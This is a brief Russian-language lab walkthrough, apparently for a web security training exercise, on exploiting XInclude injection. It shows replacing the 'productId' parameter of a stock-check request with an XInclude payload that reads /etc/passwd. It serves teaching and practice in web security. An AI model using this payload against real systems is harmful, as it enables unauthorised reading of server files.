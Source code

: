 ## Exploiting XInclude to retrieve files
1. Находим что фича "Check stock" находится на странице товара
2. Смотрим запрос через burp, видим там в теле передачу параметров `productId=1&storeId=1`
3. Меняем параметры на `productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1`
4. Готово.